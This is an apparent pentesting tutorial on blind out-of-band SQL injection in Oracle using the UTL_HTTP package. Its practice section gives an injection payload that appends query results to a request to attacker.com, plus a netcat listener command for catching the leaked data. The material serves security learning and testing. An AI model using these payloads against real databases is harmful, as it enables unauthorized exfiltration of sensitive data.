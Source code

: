 ```yaml
---
title: Exploiting UTL_HTTP for SQL Injection in Oracle
description: Learn how to exploit Oracle's UTL_HTTP for blind SQL injection attacks,
  using out-of-band methods for data exfiltration.
keywords:
- UTL_HTTP
- Oracle
- blind SQL injection
- out-of-band
- data exfiltration
- HTTP requests
- Oracle SQL injection
---
```


# UTL_HTTP

## Context

In this article, we explore how to exploit Oracle's UTL_HTTP package for blind out-of-band SQL injection attacks. Familiarity with HTTP requests, database functions, and Oracle SQL injection is assumed. The goal is to exfiltrate data from an Oracle database by leveraging the UTL_HTTP package, which allows database interactions with external web services. This type of injection is particularly useful when direct database responses to injected queries are not accessible.

## Theory

### UTL_HTTP Functionality in Oracle

UTL_HTTP is a PL/SQL package within Oracle databases that enables the execution of HTTP requests. This package is intended to facilitate communication between the database and external web services, allowing the database to send HTTP requests to specified URLs. While designed for legitimate purposes, UTL_HTTP can be exploited for malicious data exfiltration in the context of SQL injection attacks.

The vulnerability arises from the ability to craft SQL injection payloads that issue HTTP requests from the database. These requests can contain sensitive data, redirecting it to an attacker-controlled server for unauthorized access.

### Blind Out-of-Band SQL Injection

Blind out-of-band SQL injection is a technique used when direct feedback from injected queries is not possible. By leveraging side channels, attackers can extract data indirectly. The process involves crafting payloads that initiate actions outside the database, such as HTTP requests to an external server controlled by the attacker.

An essential requirement for this attack is that the vulnerable Oracle database has access to external servers and can execute HTTP requests via UTL_HTTP. By injecting payloads that include sensitive database information in HTTP query parameters or paths, an attacker can extract data without receiving direct database responses.

## Practice

### Exploiting UTL_HTTP for Blind Out-of-Band SQL Injection

These steps guide you through exploiting UTL_HTTP to achieve data exfiltration when a direct response from the database is unavailable:

- **Identify a Vulnerable SQL Query**: Begin by locating an Oracle SQL query that includes access to the UTL_HTTP package. This query should be injectable and capable of issuing HTTP requests through UTL_HTTP.

- **Inject the Payload**: Use the following command to craft and inject a SQL payload that retrieves sensitive data.

    ```sql
    SELECT UTL_HTTP.REQUEST('http://attacker.com/'||(SELECT user FROM dual)) FROM dual;
    ```

  This payload sends an HTTP request to `http://attacker.com/`, appending the result of `(SELECT user FROM dual)` to the URL. The query retrieves the current database user, leaking this information to the attacker's server.

- **Monitor Attack Server Logs**: Set up an HTTP server on the attacker's side and monitor the access logs for incoming requests. This can be achieved using tools like Netcat or a simple web server setup.

    ```bash
    nc -lnvp 80
    ```

  As the injected SQL executes, the Oracle database sends HTTP requests to `http://attacker.com/`, which appear in the server logs.

- **Extract Data from Logs**: Analyze the HTTP server logs to collect the leaked data. Each request may contain parts of the database information exfiltrated from the Oracle system.

#### Result

Executing the above steps allows an attacker to exfiltrate sensitive data from an Oracle database by leveraging the UTL_HTTP package in a blind out-of-band SQL injection attack. The data flows through HTTP requests to an attacker's server without requiring direct query results.

## Tools

- Burp Suite 
- Netcat
